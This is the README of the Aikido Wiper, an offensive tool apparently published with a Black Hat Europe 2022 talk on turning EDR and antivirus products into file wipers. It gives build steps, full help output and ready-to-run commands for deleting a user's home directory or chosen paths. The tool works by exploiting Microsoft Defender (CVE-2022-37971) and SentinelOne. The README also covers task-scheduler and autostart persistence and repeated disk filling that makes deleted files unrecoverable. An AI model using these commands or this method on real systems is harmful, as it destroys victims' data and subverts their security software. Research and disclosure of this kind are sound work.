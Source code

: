 # Aikido Wiper
Presented in Black Hat Europe 2022 Briefings under the title - [**Aikido: Turning EDRs to Malicious Wipers Using 0-day Exploits**](https://www.blackhat.com/eu-22/briefings/schedule/#aikido-turning-edrs-to-malicious-wipers-using--day-exploits-29336)

Full research process is described here - https://www.safebreach.com/resources/blog/safebreach-labs-researcher-discovers-multiple-zero-day-vulnerabilities/
## Installation
### Aikido Wiper Library
```bash
pip install <repo_path>
```
or
```bash
python setup.py install
```

### Aikido Wiper Tool
Make sure you installed the Aikido Wiper Library and then run:
```bash
pyinstaller --onefile wiper_tool/wiper.py
```

## General Description
Aikido Wiper is a next-gen wiper that manipulates EDRs and anti viruses in order to delete files.
## Usage
The Aikido Wiper offers two options to begin with:
```cmd
cmd> .\wiper.exe -h
usage: wiper.exe [-h] [-q] {PROXY_DELETION,ERASE_DISK_TRACES} ...

Aikido Wiper - Next gen wiping

optional arguments:
  -h, --help            show this help message and exit
  -q, --quiet           If specified, the wiper will run in the background

mode:
  {PROXY_DELETION,ERASE_DISK_TRACES}
```
* `PROXY_DELETION` - Specifies that you want to wipe something.
* `ERASE_DISK_TRACES` - Specifies that the wiper should fill the free space on the disk completely with a huge file, delete the file, and repeat this process a few times. This option mainly exists for the wiper to be able to use this feature in order to make deleted files unrestorable after one of the exploits is exploited and a reboot occurs.

If `PROXY_DELETION` is chosen then a few other options are available:
```cmd
cmd> .\wiper.exe PROXY_DELETION -h
usage: wiper.exe PROXY_DELETION [-h] [-p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}]
                                [-etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}]
                                [--decoy-root-dir DECOY_ROOT_DIR]
                                {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS} ...

optional arguments:
  -h, --help            show this help message and exit
  -p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}, --proxy {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}  
                        The proxy security control to use
  -etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}, --erase-traces-point {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}
                        When to execute the part of the wiping that fills the disk to remove traces of deleted files       
  --decoy-root-dir DECOY_ROOT_DIR
                        The path in which all the decoys will be placed in case of a usage of a JunctionSwitchProxy        

deletion_target:
  {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS}
    ALL_USER_DATA       Try to delete the home directory of a certain user
    ALL_FILES_UNDER_PATH
                        Try to delete all the files under the certain path
    CUSTOM_PATHS        Try to delete custom paths
```
The mandatory option to choose is the deletion target.
* `ALL_USER_DATA` requires the name of the target user. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_USER_DATA Admin
```
* `ALL_FILES_UNDER_PATH` requires the path to the target directory. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_FILES_UNDER_PATH C:\Users\Admin
```
This option is not relevant to run against Windows Defender & Defender for Endpoint since the exploit for them does not support specific files deletion
* `CUSTOM_PATHS` requires a path to a file that contains a list separated by line breaks and contains the paths to try to delete. The paths can be directories or files. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION CUSTOM_PATHS .\custom_paths.txt
```
The exploit for Windows Defender & Defender for Endpoint does not support specific files deletion. Therefore, the custom paths file can contain only paths to directories.

### Default Behavior With Mandatory Arguments Only
If you give the wiper only the mandatory arguments, which are the operation mode, probably `PROXY_DELETION`, along with the deletion target, then the default behavior will be as the following:
* The wiper will create a decoy directory in the root path of the Windows drive of the computer.
* The wiper will create the specially crafted paths inside the decoy directory and create the decoy files.
* The wiper will keep open handles to the decoy files until the EDR or the AV is forced to give up on deleting them and instead marks them for deletion for after the next reboot.
* The wiper will write a task to the task scheduler that will run the wiper in the `ERASE_DISK_TRACES` mode right after the reboot.
* After the reboot the target files or directories will be deleted and the wiper will start the process of filling up the disk a few times.

### Optional Behavior With Optional Arguments
#### `-p` / `--proxy`
Lets you choose the deletion proxy class to use. By default, the class is chosen according to the EDR / AV installed on the computer.
* `MicrosoftDefenderDeleteProxy` - Exploits CVE-2022-37971.
* `SentinelOneDeleteProxy` - Exploits <TBD>
#### `-etp` / `--erase-traces-point`
Lets you choose the point in time in which the erase disk traces trick should occur. In other words, the point in time when the wiper starts to fill up the disk to no space for a few times.
* `RIGHT_AFTER` - Should occur right after the exploit is being exploited with no reboot (not relevant for `MicrosoftDefenderDeleteProxy` or `SentinelOneDeleteProxy` but maybe for future exploits)
* `TASK_SCHEDULER_REBOOT` - The wiper should erase disk traces after reboot while using the task scheduler persistency method.
* `AUTOSTART_REBOOT` - The wiper should erase disk traces after reboot while using the autostart directory persistency method.
#### `--decoy-root-dir`
The exploits require a creation of decoy malicious files in order to make the AV / EDR try to delete them and then right before the deletion turn the decoys' root directory into a junction point to the Windows drive. This parameter lets you choose where to create the root directory for the decoys which are used for the exploits against the EDRs / AVs. The default directory is a directory with a uuid name in the Windows drive.



